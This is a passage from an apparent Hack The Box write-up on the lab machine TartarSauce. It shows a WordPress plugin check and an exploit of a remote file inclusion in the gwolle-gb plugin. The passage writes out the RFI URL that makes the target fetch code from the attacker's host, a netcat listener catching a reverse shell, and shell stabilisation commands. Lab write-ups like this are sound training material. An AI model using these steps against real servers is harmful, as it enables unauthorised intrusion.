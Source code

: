 ```
 |  - http://tartar.htb/webservices/wp/wp-content/themes/twentysixteen/style.css, Match: 'Version: 1.4'
```

### Finding for vulnerable plugins and themes
Looking at the Akismet plugin, we realized that this plugin is mainly vulnerable to cross-site scripting, which is not very useful for us. Moving on, the gwolle-gb plugin is vulnerable to remote file inclusion attack but the vulnerable version is 1.5.3, but the detected version is 2.3.10. It seems like there are no vulnerabilites in the plugins that we can exploit. 

Let's move on to the themes. Unfortunately, we are not able to find much exploits with the themes, which leads us to a dead-end.

Moving back to the plugins, when we visit http://tartar.htb/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt, we noticed something out of ordinary. The author of this machine actually modified the version number to match 2.3.10 when the plugin version is 1.5.3. This means that we can do a remote file inclusion attack on the gwolle-gb plugin!

```
== Changelog ==

= 2.3.10 =
* 2018-2-12
* Changed version from 1.5.3 to 2.3.10 to trick wpscan ;D
```

### RFI in gwolle-gb plugin
Let's try to exploit RFI by visiting http://tartar.htb/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.16.6:4000/. We realize that a GET request is being made for wp-load.php file from our server. THis means that we can easily get a PHP reverse shell and rename it as wp-load.php to be able to spawn a reverse shell.

```
┌──(kali㉿kali)-[~]
└─$ python3 -m http.server 4000
Serving HTTP on 0.0.0.0 port 4000 (http://0.0.0.0:4000/) ...
10.10.10.88 - - [13/Dec/2021 12:07:47] code 404, message File not found
10.10.10.88 - - [13/Dec/2021 12:07:47] "GET /wp-load.php HTTP/1.0" 404 -
```

### RFI to RCE
By modifying our PHP reverse shell and renaming it to wp-load.php, we are able to obtain a reverse shell. Next, we will have to stabilize our reverse shells.

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 4000                             
listening on [any] 4000 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.88] 46968
Linux TartarSauce 4.15.0-041500-generic #201802011154 SMP Thu Feb 1 12:05:23 UTC 2018 i686 athlon i686 GNU/Linux
 12:19:26 up 40 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@TartarSauce:/$ export TERM=xterm
export TERM=xterm
www-data@TartarSauce:/$ stty cols 132 rows 34
stty cols 132 rows 34
```
